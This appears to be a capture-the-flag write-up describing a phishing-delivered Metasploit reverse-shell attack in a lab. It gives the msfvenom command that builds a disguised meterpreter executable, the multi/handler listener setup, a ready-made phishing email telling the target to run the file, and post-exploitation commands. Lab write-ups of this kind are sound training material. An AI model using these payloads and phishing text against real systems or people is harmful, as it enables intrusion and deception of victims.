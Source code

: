 ## Shadow Phishing

> A Metasploit-based reverse shell attack leveraging a malicious Windows Application.

![The challenge](https://github.com/user-attachments/assets/54edd712-4d5c-4d3c-99fb-460155a29a87)



---

### Generating the Malicious Executable 

This challenge was very similar to Phantom so the thought process was the same. Offsec has a section for Metasploit Unleashed with a exploit payload called MSFVENOM. From there, the next steps were to identify the criteria from email and do more research on MSFVENOM. 

![image](https://github.com/user-attachments/assets/a1fd6de8-d955-4961-a0ea-f6dd189ccbb9)

This is what I ended up crafting up

![image](https://github.com/user-attachments/assets/113cf6eb-2ca1-4c90-b9cf-59bedac845ee)


```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.212.180 LPORT=8888 -f exe > SilentEdge_Installer.exe
```
![image](https://github.com/user-attachments/assets/cedb7514-9d7b-40cb-b1c2-e815366e0215)


---

### Listener Setup

Once the payload was generated, I configured Metasploit to listen for incoming connections

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST=10.10.212.180
set LPORT=8888
exploit -j
```

![Listener](https://github.com/user-attachments/assets/54e798a5-6f30-478b-bfcc-e91ae8a00a9a)


---

### Delivering the payload

The generated SilentEdge_Installer.exe was sent via a phishing email to the target, instructing them to execute it.

![file upload](https://github.com/user-attachments/assets/a3bd7d55-b3f5-4461-94c5-d8aef73759cf)


This was the phishing email I crafted as well

```bash
Subject: SilentEdge Installer - Phase 2
Cipher,
The latest SilentEdge Installer is built and ready for deployment...

Download and execute: SilentEdge_Installer.exe

Keep this confidential.
— ShadowByte
```
---

### Gaining Remote Access & Post-Exploitation

The reverse shell hooked, and once again I navigated to the desktop:

```bash
cd c:/users/Administrator/Desktop
ls
cat flag.txt
```

![Meta Sesh](https://github.com/user-attachments/assets/5c6a0bdf-5265-4ad2-aba5-b287a5053d4d)

And Voila! Flag found. 

![image](https://github.com/user-attachments/assets/255c82df-40ef-4a06-a6f1-2206549a643a)

---
